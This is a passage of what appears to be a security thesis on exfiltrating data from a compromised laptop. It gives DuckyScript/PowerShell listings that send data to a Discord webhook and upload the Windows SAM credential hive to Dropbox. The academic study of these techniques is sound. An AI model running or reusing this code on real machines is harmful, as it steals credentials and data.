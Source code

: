 When gathering some information from the victim's laptop, the question arises of how this information can be forwarded to the attacker. While there is a myriad of possibilities for this, ranging from physical extraction to Bluetooth, to basic IP packets, this thesis will elaborate on two ways to send information from the target to a destination over the internet.
One option to send out information is to send it to an already-established server. The O.MG repository on GitHub features examples of sending intel to a Dropbox or Discord server, sending via Teams, email, and more. The advantage of sending information over a frequently used communication channel like this is that it looks very inconspicuous and will probably pass through firewalls.\\


One example of sending an Extensible Markup Language (XML) object to a Discord webhook given the webhook address and the content for the XML object:
\begin{lstlisting}[caption={Send an XML object through PowerShell}, captionpos=b]
STRING $xmlObject = [xml]$xmlContent
ENTER
STRING $Payload = @{xml = $xmlObject}
ENTER
STRING $Json = @{content = $Payload | ConvertTo-Json } | ConvertTo-Json	
ENTER
STRING Invoke-RestMethod -Uri $Webhook -Method Post -Body $Json -ContentType 'application/json'
ENTER
\end{lstlisting}

This approach would also be possible with a custom server by replacing the webhook with the server address.

Another possibility is to use Dropbox apps. This requires a Dropbox account. Once logged in to the app console, a new app can be created. Before generating the access token, the ``file.content.write'' permissions have to be given to ensure that the file can be uploaded. From there the DuckyScript code looks like this;

\begin{lstlisting}[caption={Send any file to a Dropbox app}, captionpos=b]
STRINGLN $accessToken = "<DROPBOX_ACCESS_TOKEN>"
STRINGLN $file = "C:\sam.hiv"
STRINGLN $authHeader = @{Authorization = "Bearer $accessToken"}
STRINGLN $uploadUrl = "https://content.dropboxapi.com/2/files/upload"
STRINGLN $dropboxFilePath = "/omg-test"
STRINGLN $headers = @{}
STRINGLN $headers.Add("Authorization", "Bearer $accessToken")
STRINGLN $headers.Add("Dropbox-API-Arg", '{"path":"' + $dropboxFilePath + '","mode":"add","autorename":true,"mute":false}')
STRINGLN $headers.Add("Content-Type", "application/octet-stream")
STRINGLN $fileContent = [System.IO.File]::ReadAllBytes($file)
STRINGLN Invoke-RestMethod -Uri $uploadUrl -Headers $headers -Method Post -Body $fileContent
\end{lstlisting}



